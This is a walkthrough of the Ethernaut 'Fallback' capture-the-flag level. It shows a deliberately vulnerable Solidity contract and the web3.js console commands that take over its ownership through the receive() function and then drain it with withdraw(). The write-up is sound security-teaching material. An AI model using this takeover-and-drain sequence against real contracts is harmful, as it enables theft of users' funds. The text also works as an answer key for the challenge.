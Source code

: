 # Level 1: Fallback

This is the level 1 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites

- Sending transactions using [web3.js](https://ethereum.stackexchange.com/questions/53094/sending-ether-via-contract-instance) to a contract and to a payable function
- [Conversion between units ether & wei](https://web3js.readthedocs.io/en/v1.5.2/web3-utils.html#towei)
- Solidity contract [fallback](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

and `contract` methods & `web3.js` functions injected into console.

We, the `player` address, have to somehow become `owner` of the contract & withdraw all amount from contract.

Key parts to notice are `contribute` function and `receive` fallback function of contract.

From the constructor, it can be seen that `owner`'s contribution is 1000 eth. One way to become `owner` is to send more than current `owner`'s contributed eth to `contribute` function to be owner. Let's check `owner`'s contributed eth using console:

```javascript
ownerAddr = await contract.owner();
await contract
  .contributions("0x9CB391dbcD447E645D6Cb55dE6ca23164130D008")
  .then((v) => v.toString());

// Output '1000000000000000000000'
```

But, that'd be too much eth! We have nowhere near it.

Take a look at `receive` fallback function though. It also has code to change ownerships. According to what code is there, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address has zero contribution to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth (required acc. to code):

```javascript
await contract.contribute.sendTransaction({
  from: player,
  value: toWei("0.0009"),
});
```

Now we have a non-zero contribution that you can verify by:

```javascript
await contract.getContribution().then((v) => v.toString());
```

And now send any non-zero amount of ether to contract:

```javascript
await sendTransaction({
  from: player,
  to: contract.address,
  value: toWei("0.000001"),
});
```

Boom! We claimed ownership of the contract!
You can verify that `owner` is same address as `player` by:

```javascript
await contract.owner();
// Output: Same as player address
```

And for the final blow, withdraw all of contract's balance:

```javascript
await contract.withdraw();
```

Done.
